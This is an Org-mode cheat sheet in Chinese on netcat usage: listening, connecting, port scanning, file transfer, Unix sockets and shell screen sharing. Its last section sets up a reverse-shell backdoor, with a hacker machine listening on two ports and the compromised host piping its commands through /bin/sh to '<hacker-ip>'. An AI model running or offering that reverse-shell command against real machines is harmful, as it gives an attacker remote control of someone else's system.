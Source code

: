 #+TITLE:     Netcat
#+AUTHOR:    Hao Ruan
#+EMAIL:     haoru@cisco.com
#+LANGUAGE:  en
#+LINK_HOME: http://www.github.com/ruanhao
#+OPTIONS: h:6 html-postamble:nil html-preamble:t tex:t f:t ^:nil
#+HTML_DOCTYPE: <!DOCTYPE html>
#+HTML_HEAD: <link href="http://fonts.googleapis.com/css?family=Roboto+Slab:400,700|Inconsolata:400,700" rel="stylesheet" type="text/css" />
#+HTML_HEAD: <link href="../org-html-themes/css/style.css" rel="stylesheet" type="text/css" />
#+HTML: <div class="outline-2" id="meta">
| Author   | {{{author}}} ({{{email}}})    |
| Date     | {{{time(%Y-%m-%d %H:%M:%S)}}} |
#+HTML: </div>
#+TOC: headlines 3
#+STARTUP:   showall


* 基本用法

** 服务器端

#+BEGIN_SRC sh
  nc -l <port>
#+END_SRC


** 客户端

#+BEGIN_SRC sh
  nc <ip> <port>
#+END_SRC


* 用法示例

** 检测端口

#+BEGIN_SRC sh
  nc -w 1 -z <ip> 20-30
#+END_SRC

** 设置连接超时

#+BEGIN_SRC sh
  nc -w 5 <ip> <port>
#+END_SRC

** 指定源 IP

#+BEGIN_SRC sh
  ## -s 指定 src ip
  nc -s 10.1.2.3 <ip> <port>
#+END_SRC

** 使用 Unix Domain Socket

*** 服务器端

#+BEGIN_SRC sh
   nc -lU /var/tmp/dsocket
#+END_SRC

*** 客户端

#+BEGIN_SRC sh
    nc -U /var/tmp/dsocket
#+END_SRC

** 传输文件

#+BEGIN_SRC sh
  nc -v -l 8080 < file.txt       ## 服务器端
  nc <ip>  8080 > save_file.txt  ## 客户端

  nc -v -l 8080 > file.txt       ## 服务器端
  nc <ip>  8080 < save_file.txt  ## 客户端
#+END_SRC

** 共享屏幕

*** 一对多

#+BEGIN_SRC sh
    script -qf | tee >(nc -kl 5000) >(nc -kl 5001) >(nc -kl 5002)
    ## run 'nc yourip 5000', 'nc yourip 5001' or 'nc yourip 5002' elsewhere
    ## will produce an exact same mirror of your shell.
    ## This is handy when you want to show someone else some amazing stuff
    ## in your shell without giving them control over it.
#+END_SRC

*** 一对一

#+BEGIN_SRC sh
    mkfifo foo; script -f foo ## master
    cat foo ## slaver
#+END_SRC

** 反向连接后门

在黑客机 2345 端口上输入命令，在 2346 端口查看结果

*** 黑客机输入命令

#+BEGIN_SRC sh
  ## hacker
  nc -l 2345
  nc -l 2346
#+END_SRC

*** 肉机输入命令

#+BEGIN_SRC sh
  nc <hacker-ip> 2345 | /bin/sh | nc <hacker-ip> 2346
#+END_SRC
